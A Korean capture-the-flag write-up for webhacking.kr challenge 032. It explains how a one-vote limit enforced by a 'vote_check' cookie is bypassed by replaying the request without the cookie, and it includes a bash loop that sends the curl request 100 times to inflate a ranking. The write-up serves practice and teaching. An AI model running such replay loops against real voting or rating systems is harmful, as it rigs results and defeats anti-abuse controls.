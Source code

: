 ```yaml
---
layout: post
title: webhacking.kr 032
category: Web
rpath: /resource/webhacking.kr_032
tag: [burp_suite, repeater] 
---
```


**Category:** Web

**Source:** webhacking.kr

**Points:** 150

**Author:** Jisoon Park(js00n.park)

**Description:** 

>![img]({{page.rpath|prepend:site.baseurl}}/prob.png)

## Write-up

RANK가 있는 걸로 봐서는 뭔가 순위를 보여주는 페이지인것 같다.

아무 ID(여기서는 younghero)나 클릭해보면 HIT 점수가 1 오르는 것을 볼 수 있었다.

![img]({{page.rpath|prepend:site.baseurl}}/vote.png)

한번 더 클릭했을 때는 no라는 메세지가 나오고 더이상 HIT 점수가 오르지 않았다.

![img]({{page.rpath|prepend:site.baseurl}}/error.png)

뭐가 다르지 하고 두 번의 request 내용을 비교해 봤더니, cookie에 "vote_check=ok"라는 내용이 추가된 것을 알 수 있었다.

![img]({{page.rpath|prepend:site.baseurl}}/req1.png)

![img]({{page.rpath|prepend:site.baseurl}}/req2.png)

첫번째 request의 response를 보면 cookie가 추가되는 것을 명시적으로 확인할 수 있다.

![img]({{page.rpath|prepend:site.baseurl}}/setcookie.png)

맨 아래쪽의 join 버튼을 누르면 차트에 진입할 수 있는데, 일단 진입한거 1등을 달성해보자.

vote_check이 들어가지 않은 request를 반복적으로 보내면 될거 같다.

코딩하기 귀찮아서 burp suite의 repeater 기능을 이용했는데, 이것도 100번을 누르려니 귀찮아서 curl command로 복사(Copy as curl command)해서 결국 간단히 쉘 코딩을 하고 말았다.

```bash
#!/bin/bash

c=1
while [ $c -le 100 ]
do
    curl -i -s -k  -X $'GET' \
    -H $'Host: webhacking.kr' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H $'Referer: http://webhacking.kr/challenge/codeing/code5.html' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9,ko;q=0.8' -H $'Cookie:  PHPSESSID=1f2df9a71e78841959b0656b05a2cadb' -H $'Connection: close' \
    -b $'PHPSESSID=1f2df9a71e78841959b0656b05a2cadb' \
    $'http://webhacking.kr/challenge/codeing/code5.html?hit=matta'

    ((c++))
done
```

코드를 실행해서 투표 점수가 100점을 넘으니 문제를 해결할 수 있었다.

![img]({{page.rpath|prepend:site.baseurl}}/flag.png)
